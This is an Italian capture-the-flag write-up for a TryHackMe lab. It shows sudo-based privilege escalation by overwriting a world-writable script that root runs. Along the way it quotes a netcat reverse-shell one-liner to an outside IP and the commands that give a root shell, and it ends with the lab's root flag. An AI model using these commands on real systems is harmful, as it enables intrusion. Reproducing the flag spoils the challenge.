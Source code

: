 1) Cerchiamo la lista dei comandi sudo :  
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 

2) apro il file di backup: cat /usr/bin/perl /home/itguy/backup.pl
3) Dentro il file troviamo: system("sh",  "/etc/copy.sh")
4) Apriamo questo file: cat /etc/copy.sh
   cat /etc/copy.sh
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

5) vediamo i permessi che ha il file copy.sh:  cd /etc  
 permessi --> -rw-r--rwx   1 root root      81 Nov 29  2019 copy.sh
 
(Possiamo vedere che noi possiamo scriverci w, leggerlo r, e eseguirlo x, ma la cosa più interessante e che viene eseguito come root quindi possiamo usarlo per spawnarci una shell root)

6)  Sovrascrivamo il file copy.sh : echo "/bin/bash" > /etc/copy.sh
7) Poi eseguiamo come super utente il file /usr/bin/perl /home/itguy/backup.pl:                       sudo /usr/bin/perl /home/itguy/backup.pl
8) Ora che abbiamo la shell di root entriamo nella directory root: cd /root
9) Leggiamo il file root.txt: THM{6637f41d0177b6f37cb20d775124699f}

